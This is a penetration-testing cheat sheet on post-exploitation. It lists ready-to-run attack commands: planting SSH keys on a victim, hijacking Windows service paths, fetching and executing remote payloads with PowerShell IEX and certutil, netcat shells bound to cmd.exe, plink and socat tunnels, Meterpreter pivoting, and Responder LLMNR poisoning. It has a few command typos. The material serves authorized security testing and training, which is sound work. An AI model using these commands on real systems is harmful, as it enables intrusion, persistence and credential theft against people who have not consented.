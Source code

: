 ```yaml
---
title: Post exploitation
excerpt: "This is a guide for post exploitation"
last_modified_at: 13-01-2022
categories:
- cheatsheet
tags:  
- pentest
- post-exploitation
- exploitation
image: /assets/images/cheatsheet/post-exploitation.jpeg
---
```



# Privilege escalation

### SSH
```bash
ssh-keygen -f user # Attack

# Victim
mkdir  (home/)~www-data/
mkdir ~/.ssh/
touch ~/.ssh/authorized_keys
echo "public_key" > ~/.ssh/authorized_keys
ssh www-data@172.0.0.1 -p 2222 -i user
```  

## Windows
### Automatized
- [winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS/winPEASbat)  



### Mandatory level
- whoami /groups  

### Services
```powershell
wmic service # List services
wmic service get Name,Sate,PathName | findstr "Running" # Running services
sc query servicename # Informations about a service 
sc qc servicename # Service configurations
sc config servicename binPath="certutil -urlcache -f priv.exe" # Change the path of the file
sc start servicename
```  

## Linux
### Automatized
- [linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)  
- [gtfobins](https://gtfobins.github.io/)  
- [linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)  

### SUID/GETUID
```bash
find / -user root -perm -4000 -print 2>/dev/null 
```  

### Permissions
```bash 
sudo -l # Programs that run as sudo

find / -type f -perm 777 2>/dev/null # Files with permissions

ls /etc/cron.* # Check all crontab folders

uname -l # Kernel and SO versions
cat /etc/issue
```  


## Transfer files
```bash
python -m SimpleHTTPServer 80 #Open server
python3 -m http.server 80

# Windows
certutil.exe -urlcache -f [http://172.20.1.6/file.exe](http://172.20.1.6/file.exe) file.exe
powershell.exe wget [http://172.20.1.6/file.exe](http://172.20.1.6/file.exe) -OutFile file.exe
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://172.20.1.6/file.exe','file.exe')
powershell.exe IEX(New-Object System.Net.WebClient).DownloadString('http://172.20.1.6/poc.txt') # Read and execute 
# Windows hex
/usr/share/windows-resources/binaries/upx -9 exec.exe # Compress
exe2hex -x exec.exe -p exec.txt # To hex
nc -l 10.10.10.10 4444 < exec.txt

# Linux
wget http://172.20.1.6/file.exe -O /tm/file.exe
curl http://172.20.1.6/file.exe -o file.exe

scp /source/folder/scp.zip root@191.162.0.2:/destiny/folder #ssh
```  


## Tunneling
```bash
# Windows 
nc.exe -vnlp 5555 -s 127.0.0.1 -e cmd.exe # Attacker
plink.exe -ssh -l user -pw root -R 192.168.0.8:1337:127.0.0.1:5555 192.168.0.8 # Victim
nc -v 127.0.0.1 1337 # Attacker

# Linux
socat TCP-LISTEN:8443,reuseaddr,fork TCP-LISTEN:2222,reuseaddr
socat TCP4:172.20.1.6:8443 TCP4:127.0.0.1:22

ssh www-data@172.0.0.1 -p 2222 -i us -L 3333:127.0.0.1:3306
```


## Pivoting
Meterpreter
```bash
ipconfig # Networks interface
route # Identify network

run autoroute -s 10.0.20.0/24 #Add a route to our machine
use auxiliary/server/sock4a # Create a proxy in port 1080
nano /ect/proxychains.conf # Add this proxy to proxychains
proxychains nmap -v —open -sT -p 110,139 -Pn 10.10.20.0/24 # The network is visible
V
portfwd add -l 110 -p 110 -r 10.20.20.4 # Portfoward  a specific port
nmap -sV -p 110 127.0.0.10 # Can acess this port
```

## Internal pentest
### Responder
A LLMNR & NBT-NS Spoofing Attack.  
```bash
vim /etc/responder/Responder.conf # Configure the ips field RespondTo

responder -I eth0 -Prv # Will list to all
```